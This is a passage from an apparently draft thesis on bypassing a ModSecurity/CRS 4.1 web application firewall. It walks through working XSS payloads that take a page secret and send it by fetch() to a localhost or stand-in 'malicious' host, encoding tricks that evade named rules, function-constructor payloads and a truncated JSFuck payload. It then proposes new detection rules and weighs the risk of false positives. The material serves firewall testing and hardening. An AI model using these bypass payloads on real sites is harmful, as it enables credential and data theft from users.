\subsubsection{HTML Character References + JavaScript normal character escape}

\label{sec:htmlencjsesc}
The following payload could be used by an attacker intending to exploit a XSS vulnerability to exfiltrate secrets:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

A request containing this payload was blocked by the ModSecurity firewall using \acrshort{crs} 4.1 based on 4 rule triggers:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=Secret exfiltration XSS blocked, label={lst:storedxssblocked}]
<payload><a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a></payload>

<message>"Possible Server Side Request Forgery (SSRF) Attack: Cloud provider metadata URL in Parameter"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "88"] [id "934110"]<fileDetails>
<MatchedData>"http://localhost"</MatchedData>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "225"] [id "941170"]<fileDetails>
<MatchedData>"javascript:[...]"</MatchedData>

<message>"Node-Validator Deny List Keywords"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "252"] [id "941180"]<fileDetails>
<MatchedData>".innerhtml"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "323"] [id "941210"]<fileDetails>
<MatchedData>"javascript:v"</MatchedData>
\end{lstlisting}

\acrshort{html} character reference substitution was used to substitute certain characters.
On escaping of the latin character \verb|a| in \verb|j&#97vascript|, the payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

evaded the \acrshort{crs} 4.1 rules with ids \verb|941170| and \verb|941210|.
On escaping the \verb|.| in \\ \verb|getElementsByName('name')[0]&#46innerHTML|, the payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0]&^\#^46innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

successfully evaded \acrshort{crs} 4.1 rule with id \verb|941180|.
Finally one of the forward-slashes \verb|/| in the url-string given to the JavaScript function \verb|fetch()| was escaped by prepending it with a back-slash \verb|\|.
Escaping any normal character with a back-slash \verb|\| is allowed in JavaScript (Section~\ref{sec:jsescape}) and successfully made the payload evade the last remaining rule: \verb|934110|.
The bypassing payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0]&^\#^46innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

After injecting this payload into the \acrshort{html} document during validation, it turned out that the resulting \acrshort{html} code was split according to the whitespaces given in the JavaScript statements. A similar case to what was observed in Section~\ref{sec:funconstrconbypass}.
Whitespaces contained in the JavaScript statements of the bypassing but invalid payload were substituted by comments to create the payload:

\begin{lstlisting}[style=basicStyle, caption=Secret exfiltration XSS bypass, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var/**/secret/**/=/**/document.getElementsByName('name')[0]&^\#^46innerHTML;var/**/data/**/=/**/{body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

When sent in a request towards the web application, this payload bypassed the ModSecurity firewall using \acrshort{crs} 4.1 and was successfully validated on the target.


% \subsubsection{Percent encoding + Unicode in JSON}
% \label{sec:perencunico}
% In order to avoid a rule matching on the character sequence  The test payload:
%
% \begin{lstlisting}[style=basicStyle, language=Python]
% 'prompt`\u0024{111}`'
% \end{lstlisting}
%
% As seen in Section~\ref{sec:unicodeinjsontest}, the ModSecurity firewall using \acrshort{crs} 4.1 blocks requests containing unicode escaped characters in JSON.
% . 
%
% In order to bypass this rule, the tested payload was percent encoded using the Python function \verb|urllib.parse.quote_plus()| according to Section~\ref{sec:percenc}. The obscured payload:
%
% \begin{lstlisting}[style=basicStyle, language=Python]
% 'prompt%60%24%7B111%7D%60'
% \end{lstlisting}
%
% evaded the initially blocking rule with id \verb|
% was blocked by the ModSecurity firewall using \acrshort{crs} 4.1 according to 
%
% \begin{lstlisting}[style=ruleStyle, language=XML, caption=unicode escape in json blocked, label={lst:jsonunicodeurlencblocked}]
% <payload>urllib.parse.quote("alert\u0024{1}"')</payload>
% <payload>%7B%20%22body%22%3A%20%22alert%5Cu0024%7B1%7D%22%20%7D</payload>
% <message>"Possible Unicode character bypass detected"</message>
% <file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
% <fileDetails>[line "1263"] [id "920540"]<fileDetails>
% <MatchedData>"x5cu0024"</MatchedData>
% \end{lstlisting}

	\subsection{Interpretation of evaluation results}
Evaluation results show that there are multiple Firewall Evasion techniques effective against the tested firewall configuration. {\color{red}X of Y} tested Firewall Evasion techniques have proven effective during the evaluation. Using the techniques described in Section~\ref{sec:unicodenormalization}: Unicode Normalization, Section~\ref{sec:taggedtemplateliterals}: Tagged Template Literals, Section~\ref{sec:functionconstructor}: Function constructor in combination with Section~\ref{sec:sbn}, Section~\ref{sec:stringreplace} and Section~\ref{sec:aurebesh}, multiple payloads can be constructed to bypass the tested firewall configuration. Section~\ref{sec:multiiteration} states examples including passing malicious html elements (Section~\ref{sec:htmlencjsesc}) as well as directly executable JavaScript code (Section~\ref{sec:funconstrconbypass}. 
Further possible payloads include payloads that could be used to circumvent a more stringent ruleset.
Section~\ref{sec:avoidingbypassA} states a proof of concept of a valid payload that avoids passing the characters \verb|()| as part of the payload.
Similarly, Section~\ref{sec:avoidingbypassB} states a proof of concept of a valid payload that avoids passing the characters \verb|{}| as part of the payload. 

While the evaluation results state some possible evading payloads as is, it seems natural that there are more evading payloads possible using a combination of the stated techniques under Section~\ref{sec:firewallevasiontechniques}.

Using these results, the administrator of the tested firewall can implement new filtering rules. Depending on the implementation context of the firewall, such as the language used to configure the firewall rules, some limitations might apply. Using the ModSecurity firewall configured to use the CoreRuleSet as an example, the firewall rules can be extended following the guide provided in their documentation. By extending the ruleset, it is possible to blacklist the bypassing payloads. Created and proposed rules based on the evaluation results mentioned under Section~\ref{sec:singleiterationeva} and Section~\ref{sec:multiiteration} are detailed under Section~\ref{sec:rulesproposal}. Depending on the specific Web Application that is protected by the Web Application firewall, adding rules that completely block some Evasion Techniques that were detected to be effective might be possible. If that is not the case, it could be possible to blacklist payloads that were discovered during the evaluation. At least, some discovered bypassing payloads are known after the evaluation. With this knowledge, the Web Application can be fortified using a different methodology to adding firewall filtering rules. If nothing is to be done about the findings, still the knowledge gained about bypassing payloads can be used to estimate the risk posed to the Web Application. 

Gathered evaluation results can be used to gain knowledge about payload limitations that incur by applying Firewall Evasion techniques to a payload. (Using this knowledge, more defensive measures based on exploiting the incurred payload limitations can theoretically be deployed to render a specific evasion technique useless.)
Incurring payload limitations will be discussed in the following section.



... 

	\subsection{Payload limitations}
\label{sec:payloadlimitations}
{\color{blue} evtl das hier raus? falls nicht mehr viel mehr dazu gefunden wird}
On usage of Tagged Template Literals, the function always get called with the first parameter being an array, the second parameter being the first placeholder expression. (see Section~\ref{sec:taggedtemplateliterals}) Therefore, a workaround must be found if the return value of an expression is to be displayed. For instance, substituting \verb|alert| with \verb|prompt| in combination with Tagged Template Literals allows to display a parameter given to the template string. Using \verb|alert| will limit the displaying possibilities to the first parameter (an array of strings) of a Tagged Template Literal call. The function \verb|prompt| allows two parameters whereas the second parameter is used for a default input text in the displayed prompt. \cite{js/prompt} Therefore its possible to display the expression in the first placeholder \verb|${expression}| after string coercion. {\color{red} todo: according to this example, sometimes workaround in the form of payloads with a similar logic are neccessary}

It seems to be more versatile to use the function constructor or eval in some form to be able to use string operations on the payload. {\color{red} TODO: explain and conclude -> successful blocking of eval + function constructor by waf will limit injection possibilities}

{}[].constructor.constructor('alert' + '(`concatenation`)')(): de


	\subsection{Rules Proposal}
\label{sec:rulesproposal}
During the evaluation of the tested firewall configuration, some firewall evading payloads were found. For some of those bypasses, new rule configurations will be proposed. As mentioned before, adding new filtering rules always poses a risk that subsequently, benign requests might be flagged as malicious. As such, the possible implications of adding new firewall rules needs to be considered.

	{\color{red} TODO: explain modsecurity/coreruleset rule setup?}

\subsubsection{Function Constructor: Results}
\label{sec:rulespropfunctionconstructor}
The bypassing payload from sections Section~\ref{sec:funconstrconbypass}: Function Constructor + String Concatenation, Section~\ref{sec:avoidingbypassA}: Avoiding () and Section~\ref{sec:avoidingbypassB}: Avoiding \{\} rely on accessing the function constructor by accessing functions on built-in objects.

To block requests using the function contructor (dot notation) as a method to evade the current evaluated firewall configuration, a new firewall rule (Listing~\ref{lst:constuctorsruleproposal}) is proposed:

\begin{lstlisting}[style=basicStyle, caption=rule proposal to block usage of function constructor via dot notation, label={lst:constructorsruleproposal}]
SecRule REQUEST_COOKIES|REQUEST_COOKIES_NAMES|ARGS_NAMES|ARGS|XML:/* "@rx (?i)(?:(?:\[[^\]]*\])|(?:\{[^}]*\}))\.[a-z]*\.constructor[`,(,\[]" \
    "id:2,\
    phase:2,\
    auditlog,\
    capture,\
    t:none,t:urlDecodeUni,t:compressWhitespace,\
    msg:'XSS JavaScript function with constructor',\
    logdata:'Matched Data: %{TX.0} found within %{MATCHED_VAR_NAME}: %{MATCHED_VAR}',\
    tag:'application-multi',\
    tag:'language-multi',\
    tag:'attack-xss',\
    tag:'xss-perf-disable',\
    tag:'paranoia-level/1',\
    severity:'CRITICAL',\
    setvar:'tx.xss_score=+%{tx.critical_anomaly_score}',\
    setvar:'tx.inbound_anomaly_score_pl1=+%{tx.critical_anomaly_score}'"
\end{lstlisting}

The rule with \verb|id:2| shown in Listing~\ref{lst:constructorsruleproposal} aims at matching usage of the function constructor via dot notation using the following regular expression:

\begin{lstlisting}[style=basicStyle, caption=regex of proposed rule id:2, label={lst:constructorsruleproposalregexA}]
(?i)(?:(?:\[[^\]]*\])|(?:\{[^}]*\}))\.[a-z]*\.constructor[`,(,\[]

explanation:
(?i)  match the remainder of the pattern with the i modifier: Case insensitive match

(?:   start a non-capturing group (object group)

(?:   start a non-capturing group (square bracket group)
\[    match on a single opening square bracket
[     start a list
^\]   exclude the closing square bracket from matching
]     end the list
*     match the characters from the list (anything that is not a square closing bracket) between 0 and unlimited times
\]    match on a single closing square bracket
)     close the group (square bracket group)

|     give an alternative the previous group (square bracket group)

(?:	  start a non-capturing group (curly bracket group)
\{	  match on a single opening curly bracket
[     start a list
^}	  exclude the closing curly bracket
]     end the list
*     match the characters from the list (anything that is not a curly closing bracket) between 0 and unlimited times
\}	  match on a single closing curly bracket
)     close the group (curly bracket group)

)     close the group (object group)

\.    match on a single dot

[     start a list
a-z   match a single character between a (index 97) and z (index 122)
]     end the list
*     match the characters from the list (anything from a to z) between 0 and unlimited times

\.	  match on a single dot

constructor    match on the word "constructor"

[     start a list
`,(,\[         match on a single `, opening round bracket or opening square bracket
]     end the list
\end{lstlisting}

The two payload options of: \\
\verb|[].something.constructor()| and \verb|{}.something.constructor()| \\
are matched by this regular expression. Therefore, once the configuration is updated with the proposed rule, the bypassing payload using dot notation that has been discovered in Section~\ref{sec:funconstrconbypass} is being detected by the evaluated firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=function constructor bypass payload using dot notation blocked, label={lst:constructorsblockedpoc}]
<payload>[].constructor.constructor('var s = "secret";promp' + 't("something", s)')()</payload>
<message>"XSS JavaScript function with constructor"</message>
<file>"/rules/REQUEST-000-XSS-PROPOSAL.conf"</file>
<fileDetails>[line "13"] [id "2"]<fileDetails>
<MatchedData>"[].constructor.constructor("</MatchedData>
\end{lstlisting}

Equally, the bypassing payloads using dot notation that have been discovered in Section~\ref{sec:avoidingbypassA} and  Section~\ref{sec:avoidingbypassB} are now being detected by the evaluated firewall. Section~\ref{sec:avoidingbypassA}: Avoiding () bypass:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding () bypass payload using dot notation blocked, label={lst:constructorsblockedpoc}]
<payload>[].constructor.constructor`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```</payload>
<message>"XSS JavaScript function with constructor"</message>
<file>"/rules/REQUEST-000-XSS-PROPOSAL.conf"</file>
<fileDetails>[line "13"] [id "2"]<fileDetails>
<MatchedData>"[].constructor.constructor`"</MatchedData>
\end{lstlisting}

Section~\ref{sec:avoidingbypassB}: Avoiding {} bypass:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=using constructors rule poc, label={lst:constructorsblockedpoc}]
<payload>[].constructor.constructor('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();</payload>
<message>"XSS JavaScript function with constructor"</message>
<file>"/rules/REQUEST-000-XSS-PROPOSAL.conf"</file>
<fileDetails>[line "13"] [id "2"]<fileDetails>
<MatchedData>"[].constructor.constructor("</MatchedData>
\end{lstlisting}

The proposed firewall rule manages to block a part the mentioned bypassing payloads. The sections Section~\ref{sec:funconstrconbypass}, Section~\ref{sec:avoidingbypassA} and Section~\ref{sec:avoidingbypassB} further state similar payloads created using the square bracket notation. These are not detected and filtered by the proposed rule with \verb|id:2|.

To block requests using the function contructor via square bracket notation, another firewall rule \verb|id:3| is proposed:

\begin{lstlisting}[style=basicStyle, caption=rule proposal to block usage of function constructor via square bracket notation, label={lst:constructorsruleproposalB}]
SecRule REQUEST_COOKIES|REQUEST_COOKIES_NAMES|ARGS_NAMES|ARGS|XML:/* "@rx (?i)(?:(?:\[[^\]]*\])|(?:\{[^}]*\}))\[[`,',\"][a-z]*[`,',\"]\]\[[`,',\"]constructor[`,',\"]\][`,(,\[]" \
    "id:3,\
    phase:2,\
    auditlog,\
    capture,\
    t:none,t:urlDecodeUni,t:compressWhitespace,\
    msg:'XSS JavaScript function with constructor (square bracket notation)',\
    logdata:'Matched Data: %{TX.0} found within %{MATCHED_VAR_NAME}: %{MATCHED_VAR}',\
    tag:'application-multi',\
    tag:'language-multi',\
    tag:'attack-xss',\
    tag:'xss-perf-disable',\
    tag:'paranoia-level/1',\
    severity:'CRITICAL', \
    setvar:'tx.xss_score=+%{tx.critical_anomaly_score}',\
    setvar:'tx.inbound_anomaly_score_pl1=+%{tx.critical_anomaly_score}'"
\end{lstlisting}

The rule with \verb|id:3| shown in Listing~\ref{lst:constructorsruleproposal} aims at matching usage of the function constructor via square bracket notation using the following regular expression:

\begin{lstlisting}[style=basicStyle, caption=regex of proposed rule id:2, label={lst:constructorsruleproposalregexB}]
(?i)(?:(?:\[[^\]]*\])|(?:\{[^}]*\}))\[[`,',"][a-z]*[`,',"]\]\[[`,',"]constructor[`,',"]\][`,(,\[]

explanation:
(?i)(?:(?:\[[^\]]*\])|(?:\{[^}]*\}))    equal to the previous regular expression used in proposed rule with id:2

\[    match a single opening square bracket
[     start a list
`,'," match ticks indicating a string
]     end the list
[     start a list
a-z   match a single character between a (index 97) and z (index 122)
]     end the list
*     match the characters from the list (anything from a to z) between 0 and unlimited times
[     start a list
`,'," match ticks indicating a string
]     end the list
\]    match a single closing square bracket

\[    match a single opening square bracket
[     start a list
`,'," match ticks indicating a string
]     end the list
constructor     match on the word "constructor"
[     start a list
`,'," match ticks indicating a string
]     end the list
\]    match a single closing square bracket

[     start a list
`,(,\[         match on a single `, opening round bracket or opening square bracket
]     end the list
\end{lstlisting}

The two payload options of: \\
\verb|[]['something']['constructor']()| and \verb|{}['something']['constructor']()| \\
are matched by this regular expression. Therefore, once the configuration is updated with the proposed rule, the bypassing payload using square bracket notation that has been discovered in Section~\ref{sec:funconstrconbypass} is being detected by the evaluated firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=function constructor bypass payload using square bracket notation blocked, label={lst:constructorsblockedsbn}]
<payload>[]['constructor']['constructor']('var s = "secret";promp' + 't("something", s)')()</payload>
<message>"XSS JavaScript function with constructor (square bracket notation)"</message>
<file>"/rules/REQUEST-000-XSS-PROPOSAL.conf"</file>
<fileDetails>[line "30"] [id "3"]<fileDetails>
<MatchedData>"[]['constructor']['constructor']("</MatchedData>
\end{lstlisting}

Equally, the bypassing payloads using square bracket notation that have been discovered in Section~\ref{sec:avoidingbypassA} and  Section~\ref{sec:avoidingbypassB} are now being detected by the evaluated firewall. Section~\ref{sec:avoidingbypassA}: Avoiding () bypass:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding () bypass payload using square bracket notation blocked, label={lst:constructorsblockedsbnA}]
<payload>[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```</payload>
<message>"XSS JavaScript function with constructor"</message>
<file>"/rules/REQUEST-000-XSS-PROPOSAL.conf"</file>
<fileDetails>[line "13"] [id "2"]<fileDetails>
<MatchedData>"[]['constructor']['constructor']`"</MatchedData>
\end{lstlisting}

Section~\ref{sec:avoidingbypassB}: Avoiding {} bypass:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding {} bypass payload using square bracket notation blocked, label={lst:constructorsblockedsbnB}]
<payload>[]['constructor']['constructor']('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();</payload>
<message>"XSS JavaScript function with constructor"</message>
<file>"/rules/REQUEST-000-XSS-PROPOSAL.conf"</file>
<fileDetails>[line "13"] [id "2"]<fileDetails>
<MatchedData>"[]['constructor']['constructor']("</MatchedData>
\end{lstlisting}

The proposed firewall rule manages to block the second part the mentioned bypassing payloads. Using proposed rules \verb|id:2| and \verb|id:3|, all discovered payloads in sections Section~\ref{sec:funconstrconbypass}, Section~\ref{sec:avoidingbypassA} and Section~\ref{sec:avoidingbypassB} are successfully blocked.



\subsubsection{Function Constructor: Reflection}
The rules implemented in the previous section (Section~\ref{sec:rulespropfunctionconstructor}: Function Constructor: Results) have been reflected upon the used evasion technique stated in Section~\ref{sec:functionconstructor}: Function Constructor.

While accessing the function constructor as it is done in the mentioned bypassing payloads is no longer possible with the proposed rules \verb|id:2| and \verb|id:3| from Section~\ref{sec:rulespropfunctionconstructor}, the practice of creating firewall evading payloads through accessing the function constructor by accessing the constructor of JavaScripts built-in objects will still yield successful results. Not all vectors opened by this technique are covered by the proposed rules. Creating an Array object by calling \verb|new Array()| is equivalent to calling \verb|[]| in terms of creating a malicious payload that accesses the function constructor. Section~\ref{sec:functionconstructor} states more options to access the function constructor via other built-in objects in JavaScript at the time of this writing.

Coverage could be achieved by removing the first part of the regular expression mentioned under Listing~\ref{lst:constructorsruleproposalregexA}, such that only the following remains:

\begin{lstlisting}[style=basicStyle, caption=reduced regex of proposed rule id:2, label={lst:constructorsruleproposalregexB}]
(?i)\.[a-z]*\.constructor[`,(,\[]
\end{lstlisting}

The reduced regular expression matches on any payload that includes \verb|.constructor| followed by one of the characters \verb|`([|. This rule matches on the payload

\begin{lstlisting}[style=basicStyle]
[].constructor.constructor()
\end{lstlisting}

as well as the payload

\begin{lstlisting}[style=basicStyle]
new Array().constructor.constructor()
\end{lstlisting}

as would it flag the following benign payload that contains an example blog post as malicious
\begin{lstlisting}[style=basicStyle]
Objects in JavaScript are often created using
a.constructor.constructor(s)
can be used to initialize instances with variable properties.
\end{lstlisting}
Using this reduced regular expression can be considered too general to be used in certain environments. A more fine grained regular expression covering more options of accessing the function constructor will therefore be part of the proposed rule in the further course of this section.

Deciding between using the full regular expression stated in Listing~\ref{lst:constructorsruleproposalregexA} and its reduced variant forces the decision between the increased risk of allowing certain malicious payloads to bypass the firewall or the increased risk of false positives. It points to the required balancing act between the two risks.

In the context of this work, it was decided suitable to balance the mentioned risks by implementing a rule that would detect usage of all built-in objects and classes mentioned under Section~\ref{sec:functionconstructor}. This rule is based on the afromentioned evasion technique and relevant evaluation under Section~\ref{sec:functionconstructorsingleeva}. 

	{\color{blue}kurzer test hat ergeben: das geht auch: Proxy.constructor.constructor('al' + 'ert("Proxy")')(); }



The proposed rule ensures the coverage of known evasion techniques, decreases the risk of false positives compared to the reduced regular expression mentioned under Listing~\ref{lst:constructorsruleproposalregexB} but simultaneously increases the risk of missed built-in objects compared to the reduced regular expression mentioned under Listing~\ref{lst:constructorsruleproposalregexB}. For instance, once new built-in objects are introduced into the JavaScript language, the proposed rule needs to be updated while usage of the reduced regular expression (Listing~\ref{lst:constructorsruleproposalregexB}) would match on any character sequence without depending on knowledge about built-in object naming.  




	{\color{red}Ideen bisher:}

Unicode Normalization: ModSec WAF uses transformers to decode URL encoded payloads before they are checked against the ruleset, they same could be done with unicode normalization. normalize according to NFKC and then check the request against the ruleset

Regex to detect and block \verb|["something(any array or object function)"]["constructor"]|

Regex to detect and block \verb|["something(any array or object function)"].constructor|






{\color{red} TODO: mehr in form von: Considering evaluation result [ref], it a rule in the form of [listing] could potentially avoid a bypass using the technique [ref]}


	\newpage
	\section{Generic Evaluation Proposal}
When experimenting with firewall evasion techniques, an iterative approach to developing them seems a good solution. Example: supplying link with javascript:[code] (first with alert and then a script that fetches some stuff, see listing)
{\color{red}TODO}


	\newpage
	\section{Conclusion}
\label{sec:conclusion}
{\color{red}TODO
Firewall evasion is a tricky topic. A lot of influencing factors: Firewall, Configuration, Payload (Language, Type, Input Options), Blackbox or Whitebox. 

Hier nochmal zusammenfassung der ergebnisse und rotem faden
}



{\color{red} TODO}

Possible improvements and further research into the evaluation approach shown in the context of this work are discussed in the following section, Section~\ref{sec:continuations}: Continuations. 




	\newpage
	\section{Related Work and Ideas for Future Work}
\label{sec:continuations}
{\color{red} TODO}

	% Quellenverzeichnis
	\newpage
	\printbibliography
	\newpage
	\section{Attachments}

% \begin{lstlisting}[style=basicStyle, caption=original payloads, label=lst:originalpayloads]
% XSS payloads:
% alert("XSS")
%
% <a href="javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//malicious:3001/api/sendsecret',data)">ClickMeFor$</a>
% \end{lstlisting}

\begin{lstlisting}[style=basicStyle, caption=alert('XSS') in JSFuck, label={lst:alertxssjsfuck}]
  [][
    (![] + [])[+[]] +
      (![] + [])[!+[] + !+[]] +
      (![] + [])[+!+[]] +
      (!![] + [])[+[]]
  ][
    ([][
      (![] + [])[+[]] +
        (![] + [])[!+[] + !+[]] +
        (![] + [])[+!+[]] +
        (!![] + [])[+[]]
    ] + [])[!+[] + !+[] + !+[]] +
      (!![] +
        [][
          (![] + [])[+[]] +
            (![] + [])[!+[] + !+[]] +
            (![] + [])[+!+[]] +
            (!![] + [])[+[]]
        ])[+!+[] + [+[]]] +
      ([][[]] + [])[+!+[]] +
      (![] + [])[!+[] + !+[] + !+[]] +
      (!![] + [])[+[]] +
      (!![] + [])[+!+[]] +
      ([][[]] + [])[+[]] +
      ([][
        (![] + [])[+[]] +
          (![] + [])[!+[] + !+[]] +
          (![] + [])[+!+[]] +
          (!![] + [])[+[]]
      ] + [])[!+[] + !+[] + !+[]] +
      (!![] + [])[+[]] +
      (!![] +
        [][
          (![] + [])[+[]] +
            (![] + [])[!+[] + !+[]] +
            (![] + [])[+!+[]] +
            (!![] + [])[+[]]
        ])[+!+[] + [+[]]] +
      (!![] + [])[+!+[]]
  ](
    (!![] + [])[+!+[]] +
      (!![] + [])[!+[] + !+[] + !+[]] +
      (!![] + [])[+[]] +
      ([][[]] + [])[+[]] +
      (!![] + [])[+!+[]] +
      ([][[]] + [])[+!+[]] +
      ([] + [])[
        (![] + [])[+[]] +
          (!![] +
            [][
              (![] + [])[+[]] +
                (![] + [])[!+[] + !+[]] +
                (![] + [])[+!+[]] +
                (!![] + [])[+[]]
            ])[+!+[] + [+[]]] +
          ([][[]] + [])[+!+[]] +
          (!![] + [])[+[]] +
          ([][
            (![] + [])[+[]] +
              (![] + [])[!+[] + !+[]] +
              (![] + [])[+!+[]] +
              (!![] + [])[+[]]
          ] + [])[!+[] + !+[] + !+[]] +
          (!![] +
            [][
              (![] + [])[+[]] +
                (![] + [])[!+[] + !+[]] +
                (![] + [])[+!+[]] +
                (!![] + [])[+[]]
            ])[+!+[] + [+[]]] +
          (![] + [])[!+[] + !+[]] +
          (!![] +
            [][
              (![] + [])[+[]] +
                (![] + [])[!+[] + !+[]] +
                (![] + [])[+!+[]] +
                (!![] + [])[+[]]
            ])[+!+[] + [+[]]] +
          (!![] + [])[+!+[]]
      ]()[+!+[] + [!+[] + !+[]]] +
      ((![] + [])[+!+[]] +
        (![] + [])[!+[] + !+[]] +
        (!![] + [])[!+[] + !+[] + !+[]] +
        (!![] + [])[+!+[]] +
        (!![] + [])[+[]] +
        [+!+[]] +
        [!+[] + !+[] + !+[] + !+[] + !+[] + !+[]] +
        [!+[] + !+[] + !+[] + !+[]] +
        (!![] + [])[+[]] +
        [!+[] + !+[] + !+[] + !+[] + !+[]] +
        [+[]] +
        (!![] + [])[+[]] +
        [!+[] + !+[] + !+[] + !+[]] +
        [!+[] + !+[] + !+[] + !+[] + !+[] + !+[] + !+[]] +
        (!![] + [])[+[]] +
        [+!+[]] +
        [!+[] + !+[] + !+[]] +
        [+[]] +
        (!![] + [])[+[]] +
        [+!+[]] +
        [!+[] + !+[]] +
        [!+[] + !+[] + !+[]] +
        (!![] + [])[+[]] +
        [+!+[]] +
        [!+[] + !+[]] +
        [!+[] + !+[] + !+[]] +
        (!![] + [])[+[]] +
        [!+[] + !+[] + !+[] + !+[]] +
        [!+[] + !+[] + !+[] + !+[] + !+[] + !+[] + !+[]] +
        (!![] + [])[+[]] +
        [!+[] + !+[] + !+[] + !+[] + !+[]] +
        [+!+[]])
        [
          (![] + [])[!+[] + !+[] + !+[]] +
            (+(!+[] + !+[] + [+!+[]] + [+!+[]]))[
              (!![] + [])[+[]] +
                (!![] +
                  [][
                    (![] + [])[+[]] +
                      (![] + [])[!+[] + !+[]] +
                      (![] + [])[+!+[]] +
                      (!![] + [])[+[]]
                  ])[+!+[] + [+[]]] +
                ([] + [])[
                  ([][
                    (![] + [])[+[]] +
                      (![] + [])[!+[] + !+[]] +
                      (![] + [])[+!+[]] +
                      (!![] + [])[+[]]
                  ] + [])[!+[] + !+[] + !+[]] +
                    (!![] +
                      [][
                        (![] + [])[+[]] +
                          (![] + [])[!+[] + !+[]] +
                          (![] + [])[+!+[]] +
                          (!![] + [])[+[]]
                      ])[+!+[] + [+[]]] +
                    ([][[]] + [])[+!+[]] +
                    (![] + [])[!+[] + !+[] + !+[]] +
                    (!![] + [])[+[]] +
                    (!![] + [])[+!+[]] +
                    ([][[]] + [])[+[]] +
                    ([][
                      (![] + [])[+[]] +
                        (![] + [])[!+[] + !+[]] +
                        (![] + [])[+!+[]] +
                        (!![] + [])[+[]]
                    ] + [])[!+[] + !+[] + !+[]] +
                    (!![] + [])[+[]] +
                    (!![] +
                      [][
                        (![] + [])[+[]] +
                          (![] + [])[!+[] + !+[]] +
                          (![] + [])[+!+[]] +
                          (!![] + [])[+[]]
                      ])[+!+[] + [+[]]] +
                    (!![] + [])[+!+[]]
                ][
                  ([][[]] + [])[+!+[]] +
                    (![] + [])[+!+[]] +
                    ((+[])[
                      ([][
                        (![] + [])[+[]] +
                          (![] + [])[!+[] + !+[]] +
                          (![] + [])[+!+[]] +
                          (!![] + [])[+[]]
                      ] + [])[!+[] + !+[] + !+[]] +
                        (!![] +
                          [][
                            (![] + [])[+[]] +
                              (![] + [])[!+[] + !+[]] +
                              (![] + [])[+!+[]] +
                              (!![] + [])[+[]]
                          ])[+!+[] + [+[]]] +
                        ([][[]] + [])[+!+[]] +
                        (![] + [])[!+[] + !+[] + !+[]] +
                        (!![] + [])[+[]] +
                        (!![] + [])[+!+[]] +
                        ([][[]] + [])[+[]] +
                        ([][
                          (![] + [])[+[]] +
                            (![] + [])[!+[] + !+[]] +
                            (![] + [])[+!+[]] +
                            (!![] + [])[+[]]
                        ] + [])[!+[] + !+[] + !+[]] +
                        (!![] + [])[+[]] +
                        (!![] +
                          [][
                            (![] + [])[+[]] +
                              (![] + [])[!+[] + !+[]] +
                              (![] + [])[+!+[]] +
                              (!![] + [])[+[]]
                          ])[+!+[] + [+[]]] +
                        (!![] + [])[+!+[]]
                    ] + [])[+!+[] + [+!+[]]] +
                    (!![] + [])[!+[] + !+[] + !+[]]
                ]
            ](!+[] + !+[] + !+[] + [+!+[]])[+!+[]] +
            (![] + [])[!+[] + !+[]] +
            ([![]] + [][[]])[+!+[] + [+[]]] +
            (!![] + [])[+[]]
        ]((!![] + [])[+[]])
        [
          ([][
            (!![] + [])[!+[] + !+[] + !+[]] +
              ([][[]] + [])[+!+[]] +
              (!![] + [])[+[]] +
              (!![] + [])[+!+[]] +
              ([![]] + [][[]])[+!+[] + [+[]]] +
              (!![] + [])[!+[] + !+[] + !+[]] +
              (![] + [])[!+[] + !+[] + !+[]]
          ]() + [])[!+[] + !+[] + !+[]] +
            (!![] +
              [][
                (![] + [])[+[]] +
                  (![] + [])[!+[] + !+[]] +
                  (![] + [])[+!+[]] +
                  (!![] + [])[+[]]
              ])[+!+[] + [+[]]] +
            ([![]] + [][[]])[+!+[] + [+[]]] +
            ([][[]] + [])[+!+[]]
        ](
          ([][
            (![] + [])[+[]] +
              (![] + [])[!+[] + !+[]] +
              (![] + [])[+!+[]] +
